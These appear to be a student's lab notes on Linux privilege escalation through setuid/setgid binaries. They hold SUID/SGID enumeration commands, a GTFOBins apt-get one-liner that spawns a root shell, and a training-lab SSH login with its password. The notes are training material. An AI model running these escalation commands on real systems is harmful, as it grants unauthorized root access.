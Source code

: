 # Special Permissions

The Set User ID upon Execution (setuid) permission can allow a user to execute a program or script with the permissions of another user, typically with elevated privileges. 

The setuid bit appears as an s.

https://tech.feub.net/2008/03/setuid-setgid-et-sticky-bit/

## Enumerate Set User ID

find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-xr-x 1 root root 16728 Sep  1 19:06 /home/htb-student/shared_obj_hijack/payroll

The Set-Group-ID (setgid) permission is another special permission that allows us to run binaries as if we were part of the group that created them. 

## Enumerate Set Group ID

find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine

## GTFOBins

The GTFOBins project is a curated list of binaries and scripts that can be used by an attacker to bypass security restrictions :
https://gtfobins.github.io/

sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh

id
uid=0(root) gid=0(root) groups=0(root)

## LAB

ssh htb-student@10.129.181.58
Academy_LLPE!

find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-xr-x 1 root root 73424 Feb 12  2016 /bin/sed

find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

-rwsr-sr-x 1 root root 240 Feb  1  2016 /usr/bin/facter